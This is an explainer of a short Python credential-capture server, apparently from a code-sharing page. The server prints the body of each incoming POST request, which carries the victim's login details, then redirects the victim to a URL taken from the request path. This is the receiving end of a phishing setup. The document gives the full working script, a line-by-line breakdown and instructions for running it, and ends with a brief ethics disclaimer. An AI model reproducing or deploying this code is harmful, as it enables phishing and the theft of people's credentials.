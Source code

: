 # Simple HTTP Server for Capturing Credentials

This script is a simple HTTP server that listens on port `8080` and handles POST requests. When a POST request is made, it extracts the credentials from the request body, prints them to the console, and redirects the client to another URL

```python
import http.server
import socketserver
import urllib.error
import urllib.parse
import urllib.request

class CredRequestHandler(http.server.SimpleHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers["Content-Length"])
        creds = self.rfile.read(content_length).decode('utf-8')
        print(creds)
        site = self.path[1:]
        self.send_response(301)
        self.send_header("Location", urllib.parse.unquote(site))
        self.end_headers()
        
server = socketserver.TCPServer(("0.0.0.0", 8080), CredRequestHandler)
server.serve_forever()
```

#### Key Components of the Code:

1. **Libraries Used**:
   - **`http.server`**: Provides basic HTTP server functionality, particularly for handling HTTP requests like GET and POST.
   - **`socketserver`**: Helps in setting up the TCP server to listen for incoming requests.
   - **`urllib.parse`**: Used to manipulate and decode URLs.

2. **Class: `CredRequestHandler`**:
   This is a subclass of `http.server.SimpleHTTPRequestHandler`, which is responsible for handling HTTP requests. Specifically:
   - **`do_POST(self)`**: This method handles POST requests. Here's the breakdown of the process:
     - **`content_length`**: Extracts the length of the incoming request's body (in bytes).
     - **`creds`**: Reads the request body (which is expected to contain the credentials) and decodes it into a UTF-8 string.
     - **`site`**: Extracts the URL to redirect the client to from the path of the incoming request. This assumes the path contains the target URL encoded as part of the URL.
     - **Response**: After processing the credentials, it sends an HTTP redirect (`301`) to the target URL extracted from the request path.

3. **Server Setup**:
   - **`server = socketserver.TCPServer(("0.0.0.0", 8080), CredRequestHandler)`**: This line sets up the HTTP server to listen on all network interfaces (`0.0.0.0`) on port `8080`. The `CredRequestHandler` will handle the requests.
   - **`server.serve_forever()`**: This starts the server, which will continuously listen for incoming requests.

#### Workflow:

1. **Listening for POST Requests**:
   - The server listens on port `8080` for incoming HTTP requests. When a POST request is received, it processes the request using the `do_POST()` method.
   
2. **Processing the Request**:
   - The server reads the credentials from the body of the POST request and prints them to the console (`print(creds)`).
   
3. **Redirecting**:
   - After printing the credentials, the server performs an HTTP 301 redirect to the URL extracted from the request's path. The URL is decoded using `urllib.parse.unquote()` to ensure that any percent-encoded characters in the URL are properly decoded.

#### How to Run:

To run this server, you need to have Python installed.

1. **Save the Script**:
   - Save the script to a `.py` file (e.g., `cred_server.py`).
   
2. **Run the Server**:
   - Open a terminal or command prompt and run the script using Python:
     ```bash
     python cred_server.py
     ```
   
3. **Listening**:
   - The server will now listen for POST requests on port `8080` and print any credentials it receives in the POST body to the console. Afterward, it will redirect the request to the URL contained in the path of the POST request.

#### Ethical Concerns:
This script is designed for malicious use as it intercepts and captures credentials, which is illegal and unethical. It's essential to understand that using such a server to capture login details or other sensitive information without consent violates privacy laws and cybersecurity ethics. 

**Please do not use this script for any unauthorized or malicious purposes.**
